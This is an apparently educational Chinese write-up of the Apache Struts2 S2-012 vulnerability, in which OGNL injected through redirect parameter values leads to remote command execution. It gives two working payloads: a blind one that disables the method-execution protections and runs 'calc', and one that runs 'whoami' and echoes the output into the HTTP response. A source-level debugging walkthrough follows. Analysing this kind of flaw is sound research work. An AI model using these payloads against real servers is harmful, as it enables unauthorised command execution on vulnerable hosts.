


# S2-012 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts Showcase App 2.0.0` - `Struts Showcase App 2.3.14.2 `

Problem: 在`S2-003`、`S2-005`和`S2-009`中已经解决了`OGNL`表达式解析问题，但是由于它只涉及参数名的防护，没有考虑到参数值注入`OGNL`表达式。因此基于参数名白名单(`acceptableName`)和禁止方法执行(`denyMethodExecution`)的方式只能部分修复漏洞，不能完全解决。

当`action`中配置`result`为`redirect`并且传递了某个参数，在触发`redirect`类型返回时，`Struts2` 获取使用`${name}` 获取其值，在这个过程中会对`name`参数的值执行` OGNL` 表达式解析，从而可以插入任意 `OGNL` 表达式导致命令执行。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`.

IDE: `idea 2020.1.1 ULTIMATE`

## POC


## Payload

无回显

```java
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}
```

有回显

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

在`ParametersInterceptor`的`doIntercept`方法下断点，提交无回显`payload`触发断点（`calc`方便知道哪行代码执行了`ognl`语句）：

`s2-012/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:92`



跟入`setParameters`，可以看到只是检查了参数名是否合法，然后将参数名和参数值放入`newStack`：

```java
		...
		Iterator i$ = params.entrySet().iterator();

        while(i$.hasNext()) { //遍历检查参数名是否合法
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            boolean acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); 
            if (acceptableName) {
                acceptableParameters.put(name, entry.getValue());
            }
        }

        ...

        Iterator i$ = acceptableParameters.entrySet().iterator(); 

        while(i$.hasNext()) {
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            Object value = entry.getValue();

            try {
                newStack.setValue(name, value); //将合法的参数对放入newStack
            } catch (RuntimeException var16) {
                ...
            }
        }
```

跳回`doIntercept`, 执行`invocation.invoke()`，通过`invokeActionOnly()`获取到了`action`的返回值`redirect`：



跟入`executeResult()`，看看是如何处理`redirect`的：


继续跟入`result.execute()` -> `super.execute()` -> `conditionalParse()` -> `translateVariables()`：

经过一波字符串操作，将`ognl`表达式（`name`）提取了出来，并在`stack`中查找到的值进行替换：


继续循环，`name`已经被替换为了`payload`，在执行`stack.findValue()`时执行了ognl表达式。


回到execute()函数，进入doExecute()，执行请求转发操作：

s2-012/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/StrutsResultSupport.class:60


## Reference

- [S2-0012](https://cwiki.apache.org/confluence/display/WW/S2-012)

- [S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)